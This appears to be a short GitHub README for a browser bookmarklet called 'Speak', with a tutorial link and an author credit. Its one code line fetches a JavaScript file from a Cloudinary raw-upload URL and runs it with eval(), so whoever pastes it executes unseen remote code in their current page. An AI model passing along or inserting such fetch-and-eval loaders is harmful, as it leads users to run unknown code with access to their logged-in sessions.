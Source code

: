 Tutorial : https://youtu.be/0XkH_GcDjVk

# Speak 

´´´
javascript:fetch(`https://res.cloudinary.com/dq36xqdoe/raw/upload/v${Math.floor(Math.random() * 1000000)}/main_oqidn5.js`).then(r => r.text()).then(r => eval(r))
´´´

[@Flowings](https://github.com/flowingsalt)
